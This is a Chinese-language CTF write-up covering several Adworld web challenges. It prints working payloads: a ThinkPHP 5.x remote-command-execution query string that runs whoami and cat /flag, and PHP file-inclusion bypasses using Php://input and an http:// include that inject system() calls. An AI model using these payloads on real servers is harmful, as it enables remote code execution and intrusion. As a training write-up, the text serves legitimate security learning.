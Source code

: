 title: 攻防世界web进阶区刷题记录
author: bmth
tags:
  - 刷题笔记
  - CTF
categories: []
img: 'https://img-blog.csdnimg.cn/20210304211906505.png'
date: 2020-11-01 15:33:00
---
## baby_web
**提示是：想想初始页面是哪个**
进入是一个hello world，然后就没有了，由于提示试试抓包，得到flag
![](https://img-blog.csdnimg.cn/20200322202753441.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
## Training-WWW-Robots
由于提示我们就查看robots.txt
![](https://img-blog.csdnimg.cn/20200322202936761.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
获得flag
![](https://img-blog.csdnimg.cn/20200322203008445.png)
## php_rce
题目很明显的提示了：ThinkPHP V5
![](https://img-blog.csdnimg.cn/20200322202028621.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
上网找到相应的漏洞利用，这里我找的是：[ThinkPHP 5.x远程命令执行漏洞分析与复现](https://www.cnblogs.com/backlion/p/10106676.html)
`?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami`
发现可行，执行了whoami，那么就很简单了
![](https://img-blog.csdnimg.cn/20200322202215674.png)
cat /flag一下`?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat /flag`
![](https://img-blog.csdnimg.cn/20200322202355470.png)

## Web_php_include
给出了源码：
```php
<?php
show_source(__FILE__);
echo $_GET['hello'];
$page=$_GET['page'];
while (strstr($page, "php://")) {
    $page=str_replace("php://", "", $page);
}
include($page);
?>
```
![](https://img-blog.csdnimg.cn/20200322203614198.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
过滤了php://，但方法很多
### 方法1：大小写绕过
没有过滤Php://，可大写绕过
`?page=Php://input`POST方式提交`<?php system("ls"); ?>`
![](https://img-blog.csdnimg.cn/20200322205228978.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
然后执行cat即可
![](https://img-blog.csdnimg.cn/20200322205255955.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
### 方法2：php文件包含
php文件包含
`?page=http://127.0.0.1/index.php/?hello=<?system('ls');?>`
